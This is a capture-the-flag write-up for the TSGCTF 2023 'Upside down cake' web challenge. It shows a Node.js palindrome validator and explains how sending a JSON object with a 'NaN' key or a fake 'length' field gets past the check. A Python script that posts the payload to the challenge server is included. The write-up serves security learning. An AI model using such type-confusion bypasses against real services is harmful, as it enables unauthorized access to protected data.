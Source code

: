 ```yaml
---
title: 2023 TSGCTF - Upside down cake
author: thanguyen165
date: 2023-11-04 00:00:00 +0700
categories: [Write-ups, 2023_TSGCTF]
tags: [Web Exploitation]
---
```


* 100 points / 127 solves
* Author: hakatashi
* tag: warmup

## Description

> I checked 413 times to see if the settings are correct.

### Attached

[upside-down_cake.zip](./attached/upside-down_cake.zip)

```mjs
import {serve} from '@hono/node-server';
import {serveStatic} from '@hono/node-server/serve-static';
import {Hono} from 'hono';

const flag = process.env.FLAG ?? 'DUMMY{DUMMY}';

const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}

const app = new Hono();

app.get('/', serveStatic({root: '.'}));

app.post('/', async (c) => {
	const {palindrome} = await c.req.json();
	const error = validatePalindrome(palindrome);
	if (error) {
		c.status(400);
		return c.text(error);
	}
	return c.text(`I love you! Flag is ${flag}`);
});

app.port = 12349;

serve(app);
```
{: file="main.mjs" }

## Analyzation

In this challenge, we have to pass the checker ```validatePalindrome(palindrome)``` to get flag

```mjs
const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}
```

Firstly, I thought that just post a string length 1000 and get flag. But not so fast like that, check ```nginx.conf``` file

```conf
events {
	worker_connections 1024;
}

http {
	server {
		listen 0.0.0.0:12349;
		client_max_body_size 100;
		location / {
			proxy_pass http://app:12349;
			proxy_read_timeout 5s;
		}
	}
}
```
{: file="nginx.conf" }

So we must post a string with length < 100, but bypass the checker. Sounds impossible...

Hmm...

## Vulnerability

Who said that only string is allowed?

## Exploitation

We can post an object, or an array.

Array dont work here, because it wont pass the length condition.

We need a data type that dont have length attribute.

That's object, aka map in C++, dictionary in Python.

### Way 1

With an object, ```string.length``` returns ```undefined```, an the condition ```string.length < 1000``` returns ```true```. Pass!

But there is a problem with the loop. The index ```string.length - i - 1``` is inaccessible.

Slow down a little bit, ```string.length - i - 1``` equals to ```NaN```, so just give an object attribute ```NaN```, done!

This is the data will be post to the site.

```py
data = {
	"0": "a",
	"NaN": "a"
}
payload = { "palindrome": data}
```

### Way 2

This is an object, so its attributes are accessible by dot operator, too! It tooks me so many time to realise this.

```py
data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}
payload = { "palindrome": data}
```

***Note***: Python is different from javascript.

```py
data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}

print(data["length"]) # print 1000
print(len(data))	  # print 3
print(data.__len__()) # print 3
```

## Solution

```py
import requests

# URL = "http://localhost:12349/"
URL = "http://34.84.176.251:12349/"
HEADERS = {'Content-Type': 'application/json'}

data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}
payload = { "palindrome": data}

response = requests.post(URL, json=payload, headers=HEADERS)
print(response.content)
```

The flag is

```
TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}
```